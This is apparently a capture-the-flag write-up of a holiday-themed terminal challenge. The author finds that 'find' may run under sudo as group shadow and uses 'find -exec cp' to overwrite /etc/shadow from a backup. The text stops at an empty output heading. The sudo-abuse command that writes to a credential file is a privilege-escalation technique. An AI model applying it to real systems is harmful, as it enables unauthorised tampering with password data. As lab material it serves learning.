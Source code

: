 ```bash
              \ /
            -->*<--
              /o\
             /_\_\
            /_/_0_\
           /_o_\_\_\
          /_/_/_/_/o\
         /@\_\_\@\_\_\
        /_/_/O/_/_/_/_\
       /_\_\_\_\_\o\_\_\
      /_/0/_/_/_0_/_/@/_\
     /_\_\_\_\_\_\_\_\_\_\
    /_/o/_/_/@/_/_/o/_/0/_\
   jgs       [___]
My name is Shinny Upatree, and I've made a big mistake.
I fear it's worse than the time I served everyone bad hake.
I've deleted an important file, which suppressed my server access.
I can offer you a gift, if you can fix my ill-fated redress.

Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
Hint: What commands can you run with sudo?
```

To start with a took the hints advice and listed the commands and details of the things that I could run as `sudo`:

```bash
elf@ce0c30b05641:~$ sudo -ll

Matching Defaults entries for elf on ce0c30b05641:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User elf may run the following commands on ce0c30b05641:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
```

It would seem that the `find` command was available with root permissions to my user account. With this knowledge and some prior experience knowing that I could execute commands via the `-exec` parameter in along with the `find` command I constructed the following command that would copy the `shadow.bak` file over the top of the `shadow` file in `/etc/`

```bash
elf@ce0c30b05641:~$ sudo -g shadow find /etc/shadow.bak -exec cp {} /etc/shadow \;
```

Finally I ran the `inspect_da_box` binary now that the `shadow` file had been restored.

**Output**
